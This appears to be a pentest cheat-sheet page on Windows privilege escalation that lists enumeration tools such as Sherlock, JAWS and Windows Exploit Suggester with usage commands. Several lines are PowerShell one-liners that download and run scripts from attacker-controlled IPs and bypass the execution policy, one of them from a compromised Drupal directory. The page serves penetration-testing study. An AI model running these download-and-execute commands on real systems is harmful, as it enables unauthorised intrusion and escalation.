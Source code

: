 https://github.com/frizb/Windows-Privilege-Escalation
#
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.124:8111/Sherlock.ps1'); Find-AllVulns

Post Exploit Enum Scripts:
JAWS - Just Another Windows (Enum) Script

Usage:

Run from within CMD shell and write out to file.

powershell -exec bypass -c (new-object System.Net.WebClient).DownloadFile('http://10.10.15.24/jaws.ps1','C:\Windows\temp\jaws.ps1')
CMD C:\Windows\temp> powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt
Run from within CMD shell and write out to screen.

CMD C:\temp> powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1
Run from within PS Shell and write out to file.

PS C:\temp> .\jaws-enum.ps1 -OutputFileName Jaws-Enum.txt
WinPrivCheck by ihack4falafel

Sherlock – New one is Watson
```
PS C:\inetpub\drupal-7.54> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.124:8000/Sherlock.ps1') ; Find-AllVulns
```
PentestMonkey Windows-privesc-check is standalone executable that runs on Windows systems. It tries to find misconfigurations that could allow local unprivileged users to escalate privileges to other users or to access local apps (e.g. databases).

Exploit Suggester For this one, we need to grab the output of systeminfo and then run it against the script. -- Update the database: ./windows-exploit-suggester.py --update
./windows-exploit-suggester.py --database 2018-10-28-mssb.xlsx --systeminfo winsysinfo.txt
OR
-- If we only know about the Operating System name and not much about the hot-fixes, then possible exploits for an operating system can be used without hotfix data
```
./windows-exploit-suggester.py --database 2018-10-28-mssb.xlsx --ostext 'windows server 2008 r2'
```
